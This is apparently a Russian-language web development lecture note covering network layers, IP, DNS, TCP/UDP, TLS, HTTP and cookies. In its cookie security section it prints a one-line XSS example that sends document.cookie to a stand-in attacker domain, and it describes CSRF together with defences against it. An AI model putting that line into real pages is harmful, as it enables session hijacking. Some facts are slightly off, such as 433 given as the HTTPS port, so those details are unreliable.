




# Лекция 3. Знакомство с сетью Интернет. Как работает браузер.

**Лектор**: Христина Ландвитович
**Модуль**: HTML / CSS / JS DOM

[Назад](../../README.md)

## Что такое интернет?

Это связь, к которой подключаются сервера для коммуникации между собой. Он был разработан в 70-е, когда главной целью было создание системы связи, которая могла бы пережить ядерную атаку.

## Что такое протокол?

**Протокол** - это набор правил, который позволяет передавать данные на уровне одного слоя.

**Интерфейс** - это набор правил, который позволяет передавать данные с одного слоя на другой.

Для работы глобальной сети нам необходимы следующие слои:



- **Слой соединения**:
  - **Проводные и беспроводные сети**: физическая связь между устройствами, а так же протоколы для превращение электро-магнитных сигналов в двоичные данные.
- **Сетевой слой**:
  - **IP**: протокол, который однозначно идентифицирует устройства, которые используют IP-адреса, а так же обеспечивает стратегию маршрутизации для передачи данных на IP-адрес назначения.
- **Транспортный слой**:
  - **TCP/UDP**: протоколы, которые могут транспортировать пакеты данных с одного устройства на другое и проверять наличие ошибок.
- **Прикладной слой**:
  - **TLS**: безопасный протокол для отправки зашифрованых данных, для защиты от злоумышленников, которые перехватывают приватную информацию.
  - **HTTP/DNS**: протоколы, которые обеспечивают работу интернета и которые браузер использует каждый раз, когда вы загружаете веб-страницу.

## Что такое компьютерная сеть и вычислительное устройство?

**Вычислительное устройство** - это любое устройство, которое может запускать программу (планшет, телефон и т.д.).

**Компьютерная сеть** - это любая группа взаимосвязаных вычислительных устройства, способных отправлять или получать данные.

Компьютерная сеть может состоять даже из друх устройств. В таком случае отправлять-получать данные довольно легко. Если устройств становится больше чем два, требуется определённая система адрессации, чтобы устройства знали куда отправлять информацию, и от кого её принимать.

## Какие есть виды сетей?

Терминология типов сетей отталкивается от их размера и характеристик. Виды сетей:

- **Local area network (LAN)** - локальная сеть, которая покрывает ограниченную тереторию, например - здание.

- **Wide Area Network (WAN)** - сеть, которая покрывает большую географическую область и состоит из большого количества локальных сетей. Часто сети в глобальной сети могут быть подключены только путём аренды телекомуникационных линий у разных компаний, так как ни одна компания не владеет всей инфраструктурой в широком географическом районе. _(К этому типу сетей относится Интернет)_

- **Data Center Network (DCN)** - сеть, которая покрывает дата-центры, например - несколько зданий.

## Уровни протоколов

### 5. Физический

Тип физического подключения диктуется требованиями подключения, необходимыми в конкретной ситуации. Существуют следующие типы подключения:

- **Медные кабели**:

  - Первые подключения к сети Интернет использовали технологию стационарной телефонной системы, многие используют её и по сей день. Кабели витой пары пересылают данные через сеть, передавая импульсы электроэнергии, которые представляются бинарными данными.

  - Эти кабели используют стандарты Ethernet при передаче информации, по этому их часто называют кабелями Ethernet.

  - Используются как в локальных сетях так и в WAN сетях.

- **Оптоволоконные кабели**:

  - Оптоволоконные кабели состоят из специального волокна, которое способно переносить свет, вместо электричества. Волоко покрыто слоями пластика и обшито защитной трубкой.

  - Устройства, соединённые оптоволоконными кабелями общаются испульсами света, который достигает другого конца оптоволоконной трубки отзеркаливаясь от её внутренней поверхности.

  - Так же пользуются технологией Ethernet.

  - Способны передавать гораздо больше данных в секунду, чем медные кабели.

  - Часто используются для связи сетей через океаны.

  - Т.к. становятся дешевле со временем, всё чаще используются в обычных городских сетях.

- **Безпроводные подключения**:

  - Безпроводные соединения превращают двоичные данные в радиоволны и передают их по воздуху. Это волны подхватывает безпроводная точка доступа, которая превращает их из радиоволн обратно в двоичный код.

  - Точки безпроводного доступа подключаются к остальной части сети при помощи физической проводки.

**Как происходит передача данных?**

Информация в компьютерах двоичная - состоит из битов, которые могут принимать одно из двух состояний (0 или 1). Так что фактически данные которые мы передаём - длинная последовательность нулей и единиц. Мы просто шифруем их при помощи тока: высокое напряжение - единица, низкое напряжение - ноль. Передающему и получающему достаточно определится сколько бит информации они будут передавать в течении определённого промежутка времени.

### 4.1. IP-адреса

Для того чтобы отправители понимают куда они отправляют данные, а получатели понимали кто отправил им данные, используют IP(Internet Protocol)-адрессацию.

Этот протокол описывает использование IP-адресов для уникальной идентификации подключенных к интернету устройств.

Когда компьютер отправляет информацию на другой компьютер, он должен указать адрес получателя, а так же свой адрес, чтобы ему могли отправить что-то в ответ.

Есть дватипа IP адресов:

- **IPv4**:

  - Первая версия этого протокала в интернете.

  - Адреса выглядят так:
    `74.125.20.113`

  - Каждый адрес разделён на 4 числа, каждое из которых может варъироваться от 0 до 255.

  - Мы записываем их в десятичном виде, но компьютер хранит их в двоичном виде:
    `01010101 01010101 01010101 01010101`

  - Каждое из этих 4х чисел может иметь $2^8$ значений, суммарно это $2^{32}$ возможных адресов, то есть 4,294,967,296. Этого много но не достаточно для современного мира, т.к. у многих есть по несколько устройств, каждому из которых нужен уникальный адрес. Для этого используют следующий стандарт:

- **IPv6**:

  - Адреса выглядят так:
    `2001: 0db8: 0000: 0042: 0000: 8a2e: 0370: 7334`

  - Буквы в числах подсказывают, что каждые 4 символа это не двоичное число, а шестнадцатеричное, по этому размер этого числа даже больше чем оно выглядит.

  - Каждый адрес IPv6 представлен 128 битами, по этому существует $2^{128}$ возможных адреса. Это столько: 340,282,366,920,938,000,000,000,000,000,000,000,000.

### 4.2. DNS

Так как такие цифровые адреса трудночитаемые для человека, нужно использовать дополнительную технологию, которая будет превращать цифровые адреса в буквенные (например, *https://google.com/*).

DNS - это список URL-адресов и их IP-адресов, как телефонная книга - это список имён и соответствующих номеров телефонов. Это система, которая позволяет устанавливать соответствия между набором цифр, который является IP-адресом и удобочитаемым адресом сайта.

Чтобы обнаружить запись DNS, браузер проверяет 4 кеша:

1. Кеш браузера
2. Кеш операционной системы
3. Кеш маршрутизатора
4. Кеш провайдера

Если DNS запись не найдена в этих кешах, то провайдер выполняет поиски на других DNS серверах в интернете.

### 3. Пакеты, маршрутизаторы и транспортный уровень

Так как невозможно реализовать интернет просто из прямых подключений, данные путешествуют в сети по маршрутам от одного узла к другому. При этом этот маршрут не обязательно должен быть одинаковым для всех данные, часть данных может пойти по другому маршруту, если маршрутизаторы решили, что такой маршрут будет более оптимальным.

Как часть интернет-протокола, каждый маршрутизатор отслеживает большое количество путей для отправки пакетов и выбирает для каждого пакета оптимальный путь, по которому данные дойдут быстрее всего.

Таким образом, Internet Protocol описывает, как разделить сообщения на пакеты и отправить пакеты к месту назначения.

**Но IP не справляется со всеми последствиями использования пакетов**

- Компьютер может отправить несколько сообщений адресату, и адресату необходимо будет определить, какие пакеты принадлежат какому сообщению.
- Пакеты могут поступать не по порядку. Особенно такое может произойти, если два пакета шли разными путями.
- Пакеты могут быть утеряны на физическом уровне или в таблице переадресации маршрутизаторов. Если хоть один пакет сообщения будет утерян, то возможно целостное сообщение уже будет не восстановить.
- Так же пакеты могут случайно дублироваться из-за повторной передачи одного и того же пакета.

Для этого в стеке протоколов есть протоколы высшего уровня, которые могут справиться с этими проблемами.

**TCP, Transmission Control Protocol, Протокол управления передачей** - это транспортный протокол, который используется поверх IP для обеспечения надёжной передачи пакетов. Так как он часто используется вместе с IP, стек протоколов интернета часто называют TCP/IP. Данный протокол позволяет решить многие проблемы, такие как:

- утраченные пакеты
- повреждённые пакеты
- дублированые пакеты

**UDP, User Datagram Protocol** - это облегчённый протокол, передачи данных, который работает поверх IP. Этот протокол предоставляет механизм обнаружения повреждённых данных в пакетах, но не решает другие проблемы, вроде потерянных или неработающих пакетов. По этому этот протокол иногда называют протоколом ненадёжных данных.

### 2.1. Прикладной уровень

Протокол **TLS (transport layer security)** основан на протоколе **SSL (Secure Sockets Layer)**, который был разработан в Netscape. Протокол SSL был разработан на application-уровне, прям над TCP (Transmission Control Protocol), что позволяет более высокоуровневым протоколам, таким как HTTP работать без изменений. Если SSL настроен корректно, то сторонний наблюдатель может узнать только параметры соединения (например, тип используемого шифрования), а так же частоту пересылки и приблизительное количество данных, но не может читать или изменять сами данные. Конкретное место TLS (SSL) в стеке протоколов:



После того, как протокол SSL был стандартизирован IETF (Internet Engineering Task Force), вон был переименован в TLS.

TSL был разработал для работы над TCP, однако для работы с дейтаграм-протоколами, такими как UDP, была разработана специальная версия TLS, которая получила название DTLS (Datagram Transport Layer Security).

### 2.2. Шифрование, аутентификация и целостность

Протокол TLS предназначен для предоставления трёх услуг всем приложениям, которые работают над ним, а именно:

- **шифрование** - скрытие информации, передаваемой от одного компьютера к другому.
- **аутентификация** - проверка авторства переданной информации.
- **целостность** - выявление подмены настоящей информации подделкой.

Для того, чтобы установить криптографически безопасный канал данных, узлы соединения должны согласовать используемые методы шифрования и ключи.

### 2.3. Рукопожатие TLS (handshake)

Перед тем как начать обмен данными через TLS, клиент и сервер должны согласовать версию используемого протокола, способ шифрования данных, а так же проверить сертификаты, если это необходимо.

Этапы рукопожатия рассмотрены ниже:



Детальнее:

1. Так как TLS работает над TCP, для начала между клиентом и сервером устанавливается TCP-соединения.
2. После установки TCP, клиент отправляет на сервер спецификацию в виде обычного текста (сюда входит версия протокола, поддерживаемые методы шифрование и т.д.).
3. Сервер подтверждает версию используемого протокола, выбирает способ шифрования из предоставленного списка, прикрепляет свой сертификат и отправляет ответ клиенту (при желании сервер может так же запросить клиентский сертификат).
4. Версия протокола и способ шифрования на данном моменте являются утверждёнными, клиент проверяет присланный сертификат и инициирует или RSA, или обмен ключами по Диффи-Хеллману, в зависимости от установленных параметров.
5. Сервер обрабатывает присланное клиентом сообщение, сверяет MAC, и отправляет клиенту заключающее _Finished_ сообщение в зашифрованном виде.
6. Клиент расшифровывает полученное сообщение, сверяет MAC, и, если всё хорошо, соединение считывается установленным и начинается обмен данными приложений.

> **MAC-адрес** - это уникальный идентификатор, который присваивается каждой единице сетевого оборудования и позволяет идентифицировать каждую точку подключения, каждый узел сети и доставлять данные для корректной передачи данных и предоставления услуг. (Находится на **канальном уровне**)

### 1. HTTP & HTML

После установки TCP соединения, можно выполнять передачу данных. Клиенты и серверы взаимодействуют, обмениваясь сообщениями (а не потоком данных). Сообщения, отправленные клиентами (чаще всего браузерами) в основном называются **запросами**, а сообщения, отправленные серверами - **ответами**.

HTTP - это клиент-серверный протокол, что значит что запросы отправляются только одной из сторон - участником обмена (user-agent).

Каждый запрос (_request_) отправляется серверу, который его обрабатывает и возвращает отве (_response_).

**Детальнее про этот процесс**:

1. **Для начала необходимо направить браузер на URL-адрес** (**Uniform Resource Locator**, универсальный указатель ресурса).
   URL-адрес это адрес, выданный уникальному ресурсу в интернете. Такими ресурсами могут быть HTML-страница, CSS-файл, изображение и т.д.
   URL состоит из разных частей, некоторые из которых обязательны, а некоторые - факультативные.
   **Пример**:
   [http://www.example.com:80/myfile.html?key1=value12#anchor](http://www.example.com:80/myfile.html?key1=value12#anchor)

   - Протокол
     `http://` - это протокол. Он отображает, какой протокол браузер должен использовать. Обычно это HTTP или его более безопасная версия - HTTPS.

   - Название домена
     `www.example.com` это доменное имя. Оно означает, к какому веб-серверу нужно сделать запрос.

   - Порт
     `:80` - это порт. Оно отображает технический параметр, который используется для доступа к ресурсам на веб-сервере. Обычно имеется в виду, что веб-сервер использует стандартные HTTP порты (80 для HTTP и 433 для HTTPS) для доступа к своим ресурсам. _Факультативная часть_

   - Путь к файлу
     `/myfile.html` - это адрес ресурса на веб-сервере. Раньше, этот адрес отображал реальное расположение реального файла на веб-сервере. В наше время это чаще всего абстракция, которая позволяет при обработке адреса отображать тот или иной контент из баз данных.

   - Параметры
     `?key1=value12` - это дополнительные параметры, которые браузер сообщает своему веб-серверу. Эти параметры - список значений, которые могут разделяться символом `&`.
   - Якорь
     `#anchor` - это якорь на другую часть того же самого ресурса. Является некоторого рода закладкой, которая указывает на какую-то конкретную часть искомого ресурса.

2. **Браузер ищет IP**

3. **Браузер отправляет HTTP-запрос**
  
  *Структура запроса*

  Типы запросов:
    - `GET` - запрашивает представление указанного ресурсу.
    - `HEAD` - запрашивает ответ аналогичный запросу `GET`, но без тела.
    - `POST` - используется для отправки объекта на указанный ресурс, часто вызывая изменение состояния или побочные эффекты на сервере.
    - `PUT` - заменяет все текущие представления целевого ресурса на данные, который хранятся в запросе.
    - `DELETE` - удаляет указанный ресурс.
    - `CONNECT` - устанавливает тоннель к серверу, идентифицированному целевым ресурсом.
    - `OPTIONS` - используется для описания вариантов соединения к целевому ресурсу.
    - `TRACE` - выполняет тест обратной связи по пути к целевому ресурсу.
    - `PATCH` - используется для применения частичных модификаций в ресурсе.

4. **Сервер получает запрос и обрабатывает его**

  
  *Структура ответа*

  Сервер содержит веб-сервер (Apache, IIS), который получает запрос от браузера и передаёт его обработчику для чтения и формирования ответа. Обработчик запросов - это программа (написанная на JS, ASP.NET, PHP, Ruby... (*бекенд*)), которая считывает запрос, его заголовки и файлы cookie, для того чтобы проверить, что запрашивается, обновить информацию на сервере, если нужно, и собрать ответ в определённом формате (JSON, XML, HTML).

5. **Сервер отправляет ответ HTTP**

  Ответ сервера содержит в себе веб-страницу, которую вы запросили, код состояния (Status code), тип сжатия (Content-encoding), способ кеширования страницы (Cache-Control), какие-либо установленные файлы cookie, информацию про конфиденциальность и т.д.

  Типы кодов состояния:
    - 1хх - означает только информационные сообщения
    - 2хх - означает успех
    - 3хх - перенаправление на другой URL-адрес
    - 4хх - указывает на ошибку со стороны клиента
    - 5хх - указывает на ошибку сервера

  Для отображения страницы, браузер отправляет начальный запрос для получения HTML-документа этой страницы. После этого браузер изучает этот документ и запрашивает дополнительные файлы, необходимые для отображения содержания веб-страницы (исполняемые скрипты, детали компоновки страницы - CSS таблицы стилей, дополнительные ресурсы в виде изображений и видео-файлов), которые являются частью исходного документа, но расположены в других местах сети. Потом браузер собирает все эти ресурсы и отображает пользователю их в виде единого документа - веб-страницы. Скрипты так же могут запрашивать по сети дополнительные ресурсы на следующих этапах обработки страницы.

## Куки HTTP (Cookies)

HTTP-cookie (веб-cookie) - это небольшой фрагмент данных, который можно сохранить в браузере с указанным сроком действия. Он позволяет хранить различную информацию:
  - Данные о текущем залогиненом пользователе (благодаря куки не обязательно логиниться на страничке каждый раз когда её открываешь)
  - Персонализация (например можно выбрать цветовую схему сайта и сохранить её локально)
  - Мониторинг (отслеживание поведения пользователя)

### Безопасность

> Важная информация никогда не должна сохранятся или передаваться в cookie, т.к. этот механизм сам по себе небезопасный.

- Захват сессии (session hijacking) и XSS (cross-site scripting)
  Куки часто использую в веб приложениях для идентификации пользователя и сеанса работы, в котором он прошёл аутентификацию. Соответственно, воровство куки из программы может привести к захвату авторизированного сеанса пользователя.

  Так же приложение может использовать создание элементов (например, изображения) и применять к нему некорректный адрес. В таком адресе передаётся информация cookie, которая хранится в браузере, а адрес принадлежит злоумышленнику. Браузер попытается сделать `GET` запрос, чтобы получить картинку, а на самом деле в этом запросе отправит ваши cookie злоумышленнику.

  ```js
    (New Image ()). Src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  ```

- Межсайтовая подделка запроса (CSRF - Cross-site request forgery)
  Может выглядеть так:
  
  ```html
    
  ```
  
  Запись выглядит как картинка, но на самом деле она делает запрос на банковский сервис. Если в данный момент в браузере находятся куки с данными об аутентифицированном пользователе в этом банковском сервисе, такой запрос может быть рассмотрен как валидный и деньги будут переведены злоумышленнику.

  Для защиты от этого используется ряд методов:
    - как и при XSS, важна фильтрация входящей информации
    - для любой важной операции должно запрашиваться подтверждение
    - cookie, используемые для ответственный операций, должны иметь маленький срок действия.
